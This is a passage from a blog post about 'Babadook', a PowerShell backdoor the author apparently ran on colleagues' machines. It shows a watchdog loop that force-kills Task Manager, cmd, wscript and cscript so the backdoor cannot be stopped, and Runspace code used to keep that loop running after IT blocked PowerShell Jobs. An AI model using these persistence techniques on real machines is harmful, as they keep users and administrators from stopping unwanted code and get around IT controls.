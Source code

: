 I quickly concluded that I&#8217;d needed to make my backdoor multi-threaded to have something watching my back while the main routine was waiting for commands. Powershell&#8217;s &#8220;<a href="http://blogs.technet.com/b/heyscriptingguy/archive/2012/12/31/using-windows-powershell-jobs.aspx" target="_blank">Jobs</a>&#8221; functionality would fit. 

I&#8217;ve created a Watchdog function which were merely a `while ($True)` loop sending `Stop-Process -processname taskmgr` and ignoring errors (if the Task Manager wasn&#8217;t running). 

I did the same for `cmd.exe`, `wscript.exe` and `cscript.exe` just to be safe.

{{< highlight powershell >}}
Stop-Process -processname taskmgr -Force -ErrorAction SilentlyContinue Stop-Process -processname cmd -Force -ErrorAction SilentlyContinue Stop-Process -processname wscript -Force -ErrorAction SilentlyContinue Stop-Process -processname cscript -Force -ErrorAction SilentlyContinue {{< /highlight >}} 

This also effectively blocks running `.bat` and `.vbs` files since the interpreter has no chance to fully load before being killed by Babadook.

That worked for a while until IT released a <acronym title="Group Policy Objects">GPO</acronym> update blocking powershell remoting and thus blocking the use of powershell Jobs. \*sadface\*

So the quest for an alternative began and remembering how powershell and .NET integrate beautifully I was sure I could use some `Somelongnamespace.Threading.Something` .NET voodoo to accomplish that. Turned out the solution was way easier by using powershell&#8217;s <a href="http://thesurlyadmin.com/2013/02/11/multithreading-powershell-scripts/" target="_blank">Runspaces</a>. 

{{< highlight powershell >}}
$Watchdog = { # code here }

# "If it's in a word or in a look, you can't get rid of the babadook"
$Global:BabadookWatchdog = [PowerShell]::Create().AddScript($Watchdog)
$Global:WatchdogJob = $Global:BabadookWatchdog.BeginInvoke()

# ... code ...

# Stop Watchdog
If ($Global:BabadookWatchdog -And $Global:WatchdogJob) {
    Log "Stopping Babadook Watchdog"
	# No EndInvoke because we won't return (while true loop) and we don't care about the return anyway
    $Global:BabadookWatchdog.Dispose() | Out-Null
    Log "Watchdog disposed"
}# end :: if
{{< /highlight >}}

It worked as a charm! My watchdog was up again killing Task Manager immediatly as the window would (try) to appear. My colleagues were going crazy.

_NOTE: Up to this moment I&#8217;ve been facing some issues with `BeginInvoke` which seems to fail to run ever once in a while, still debugging this issue. With Jobs I&#8217;ve never had this issue, instead I had issues where when the Job wasn&#8217;t properly stopped, it would run forever and required a reboot to die since the Watchdog wouldn&#8217;t let me open a powershell session._


 [1]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa383607(v=vs.85).aspx
 [2]: https://github.com/jseidl/Babadook